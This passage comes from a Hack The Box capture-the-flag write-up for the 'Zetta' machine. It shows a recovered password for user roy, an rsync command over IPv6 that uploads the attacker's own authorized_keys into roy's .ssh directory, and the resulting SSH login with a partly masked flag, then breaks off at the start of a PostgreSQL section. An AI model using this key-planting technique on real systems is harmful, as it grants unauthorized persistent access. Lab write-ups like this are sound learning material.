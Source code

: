 ```python
```
from here I got the password of user roy as :- computer
Now I tried to download the id_rsa key of roy user but that fails since roy didn't have id_rsa key instead used my own authorized_keys to get the shell of user roy. 

```bash
 root@gr4n173:~$rsync -rdt authorized_keys -6 -rdt rsync://roy@[dead:beef::250:56ff:febd:7d3b]:8730/home_roy/.ssh
```
Here now authorized_keys let me to  shell of user roy and also I had used the user roy along with it's password `computer`.

## Shell as roy

 Finally I got the shell of roy and got the `user.txt` as
 
```bash
root@gr4n173:~$ ssh roy@zetta.htb
Linux zetta 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64
Last login: Sat Feb 15 22:05:58 2020 from 10.10.14.193
roy@zetta:~$ whoami
roy
roy@zetta:~$ ls
user.txt
roy@zetta:~$ cat user.txt
a575bdb*************************
```


## **Postgresql Exploit**

After I got user.txt i.e. roy shell ,I found .tudu.xml file in home directory of roy where many to do list was written.

```html
.......

					<todo done="no" collapse="no">                                                                                            
                                <title>Check postgresql log for errors after configuration</title>                                                    
                                <text>                                                                                                                
</text>                                                                                                                                               
                        </todo>                                                                                                                       
                        <todo done="yes" collapse="no">
                                <title>Prototype/test DB push of syslog events</title>
                                <text> 
</text>
                        </todo>
                        <todo done="no" collapse="no">
                                <title>Testing</title>
                                <text> 
</text>
                        </todo>
                        <todo done="no" collapse="no">
                                <title>Rework syslog configuration to push all events to the DB</title>
                                <text> 
</text>
                        </todo>
                        <todo done="no" collapse="no">
                                <title>Find/write GUI for syslog-db access/view</title>
```